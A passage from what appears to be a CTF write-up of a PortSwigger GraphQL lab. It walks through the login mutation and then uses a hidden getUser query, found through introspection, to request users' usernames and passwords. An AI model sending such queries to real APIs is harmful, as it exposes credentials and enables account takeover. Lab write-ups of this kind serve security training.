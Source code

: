 ```js
    event.preventDefault();

    const formData = new FormData(formElement);
    const { username, password } = Object.fromEntries(formData.entries())

    const loginMutation = getLoginMutation(username, password);

    sendQuery(loginMutation, redirectOnSuccess(accountDetailsPath), handleErrors(displayErrorMessages), () => displayErrorMessages(UNEXPECTED_ERROR));
};
```

When the "Log in" button is clicked, it'll send a GraphQL mutation query `login`, with variable `username` and `password`. The result is expected to return field `token` and `success`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-2/images/Pasted%20image%20%2020230705163408.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-2/images/Pasted%20image%20%2020230705163419.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-2/images/Pasted%20image%20%2020230705163427.png)

**Mutation query `login`:**
```graphql
mutation login($input: LoginInput!) {
    login(input: $input) {
        token
        success
    }
}
```

**Variable:**
```json
{
    "input": {
        "password": "bal", 
        "username": "anything"
    }
}
```

We could try to perform SQL injection to bypass the authentication.

**However, we actually found a "hidden" query in the introspection query `getUser(id: ID!)`!**

**With that said, we can try to retrieve some users' `username` and `password`!**
```graphql
query {
    getUser(id: 1) {
        id
        username
        password
    }
}
```
